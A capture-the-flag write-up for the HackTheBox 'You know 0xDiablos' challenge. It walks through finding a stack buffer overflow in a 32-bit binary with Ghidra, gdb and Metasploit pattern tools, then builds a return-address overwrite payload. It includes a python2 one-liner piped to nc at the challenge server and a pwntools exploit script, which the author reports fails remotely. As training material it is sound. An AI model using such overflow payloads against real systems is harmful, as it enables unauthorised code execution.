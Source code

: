 # Enumeration

Download file 'You know 0xDiablos.zip' extract file with 7z:

```shell
7z x You\ know\ 0xDiablos.zip                                                                                                       main 

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,16 CPUs x64)

Scanning the drive for archives:
1 file, 3058 bytes (3 KiB)

Extracting archive: You know 0xDiablos.zip
--
Path = You know 0xDiablos.zip
Type = zip
Physical Size = 3058

    
Enter password (will not be echoed):hackthebox
Everything is Ok

Size:       15656
Compressed: 3058
```

Take a look on vuln file extracted:
```shell
file vuln                                                                                                                           main 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
```

To complete this practice it is necessary to understand buffer overflow. Read the following content:

[reto](scripts/follow.md)

Open vuln file with ghidra, check functions and we find flag function with fgets, fgets like others can be overfloaded since var has been defined as char local_50 [64].

```code
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Lets create pattern with 200 chars:

```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Now try buferoverfload to vuln with this string with gdb:
```shell
gdb ./vuln 
GNU gdb (GDB) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run
Starting program: /home/darthv/git/badorius/vulnhub/0xDiablos/enumeration/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x33674132 in ?? ()
(gdb) 

```

Search offset:
```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 33674132 -l 200
[*] Exact match at offset 188
```

Search flag address:
```shell
(gdb) disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:	push   %ebp
   0x080491e3 <+1>:	mov    %esp,%ebp
   0x080491e5 <+3>:	push   %ebx
   0x080491e6 <+4>:	sub    $0x54,%esp
   0x080491e9 <+7>:	call   0x8049120 <__x86.get_pc_thunk.bx>
   0x080491ee <+12>:	add    $0x2e12,%ebx
   0x080491f4 <+18>:	sub    $0x8,%esp
   0x080491f7 <+21>:	lea    -0x1ff8(%ebx),%eax
   0x080491fd <+27>:	push   %eax
   0x080491fe <+28>:	lea    -0x1ff6(%ebx),%eax
   0x08049204 <+34>:	push   %eax
   0x08049205 <+35>:	call   0x80490b0 <fopen@plt>
   0x0804920a <+40>:	add    $0x10,%esp
   0x0804920d <+43>:	mov    %eax,-0xc(%ebp)
   0x08049210 <+46>:	cmpl   $0x0,-0xc(%ebp)
   0x08049214 <+50>:	jne    0x8049232 <flag+80>
   0x08049216 <+52>:	sub    $0xc,%esp
   0x08049219 <+55>:	lea    -0x1fec(%ebx),%eax
   0x0804921f <+61>:	push   %eax
   0x08049220 <+62>:	call   0x8049070 <puts@plt>
   0x08049225 <+67>:	add    $0x10,%esp
   0x08049228 <+70>:	sub    $0xc,%esp
   0x0804922b <+73>:	push   $0x0
   0x0804922d <+75>:	call   0x8049080 <exit@plt>
   0x08049232 <+80>:	sub    $0x4,%esp
   0x08049235 <+83>:	push   -0xc(%ebp)
   0x08049238 <+86>:	push   $0x40
   0x0804923a <+88>:	lea    -0x4c(%ebp),%eax
   0x0804923d <+91>:	push   %eax
   0x0804923e <+92>:	call   0x8049050 <fgets@plt>
   0x08049243 <+97>:	add    $0x10,%esp
   0x08049246 <+100>:	cmpl   $0xdeadbeef,0x8(%ebp)
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmpl   $0xc0ded00d,0xc(%ebp)
   0x08049256 <+116>:	jne    0x804926c <flag+138>
   0x08049258 <+118>:	sub    $0xc,%esp
   0x0804925b <+121>:	lea    -0x4c(%ebp),%eax
   0x0804925e <+124>:	push   %eax
   0x0804925f <+125>:	call   0x8049030 <printf@plt>
   0x08049264 <+130>:	add    $0x10,%esp
   0x08049267 <+133>:	jmp    0x804926d <flag+139>
   0x08049269 <+135>:	nop
   0x0804926a <+136>:	jmp    0x804926d <flag+139>
   0x0804926c <+138>:	nop
   0x0804926d <+139>:	mov    -0x4(%ebp),%ebx
   0x08049270 <+142>:	leave  
   0x08049271 <+143>:	ret    
End of assembler dump.
(gdb) 
```

EBP from flag function is: 0x080491e2 = 08 04 91 e2 = \xe2\x91\x04\x08
Now let's generate A with offset number of chars needed concatenate with flag address:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"' | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAâ
Hurry up and try in on server side.
```

Now try to send to server with nc, but seem doesn't works:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"'|nc 46.101.53.80 31815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```

It's time to play with python, after some research I found python [pwntools](http://docs.pwntools.com/en/latest/). Let's try to run our first python pwn script.
First run against the vuln file:
```python
from pwn import *
context(arch = 'i386', os = 'linux')

SERVER = "46.101.53.80"
PORT = 31815
#exploit = 'A'*188 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0'
offset = b"A" * 188
ebpfalg = b"\xe2\x91\x04\x08"
exploit = offset + ebpfalg
elf = ELF("./vuln")
print(exploit)

r = elf.process()
#r = remote(SERVER, PORT)
# EXPLOIT CODE GOES HERE
print(exploit)
r.sendafter(":", exploit)
r.interactive()
```

Seems works fine against vuln file, output:

```shell
python exploit.py 
[*] '/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe2\x91\x04\x08'
[+] Starting local process '/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/vuln': pid 15727
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe2\x91\x04\x08'
/home/darthv/git/badorius/venv/lib/python3.10/site-packages/pwnlib/tubes/tube.py:812: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 
$ 
[*] Process '/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/vuln' stopped with exit code 0 (pid 15727)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe2\x9
Hurry up and try in on server side.
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
Traceback (most recent call last):
  File "/home/darthv/git/badorius/venv/lib/python3.10/site-packages/pwnlib/tubes/process.py", line 746, in close
    fd.close()
BrokenPipeError: [Errno 32] Broken pipe
```

But It doesn't work against server side. It's time to read more about buffer overflow, and CTF framework pwn. Recomended read [Hacking the art of explotation](https://repo.zenk-security.com/Magazine%20E-book/Hacking-%20The%20Art%20of%20Exploitation%20(2nd%20ed.%202008)%20-%20Erickson.pdf)


